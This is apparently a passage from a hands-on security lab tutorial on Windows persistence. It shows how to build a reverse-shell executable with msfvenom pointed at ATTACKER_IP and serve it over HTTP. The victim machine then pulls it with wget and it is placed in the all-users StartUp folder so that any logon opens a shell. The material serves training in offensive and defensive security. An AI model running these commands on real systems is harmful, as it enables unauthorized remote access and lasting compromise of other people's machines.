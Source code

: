 	If we want to force all users to run a payload while logging in, we can use the folder under C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp in the same way.

For this task, let's generate a reverse shell payload using msfvenom:

```

AttackBox

user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe

        


```

We will then copy our payload into the victim machine. You can spawn an http.server with Python3 and use wget on the victim machine to pull your file:

```

AttackBox

user@AttackBox$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... 

        


```

```

Powershell

PS C:\> wget http://ATTACKER_IP:8000/revshell.exe -O revshell.exe

        


```

	We then store the payload into the C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp folder to get a shell back for any user logging into the machine.

```

Command Prompt

C:\> copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"

        


```
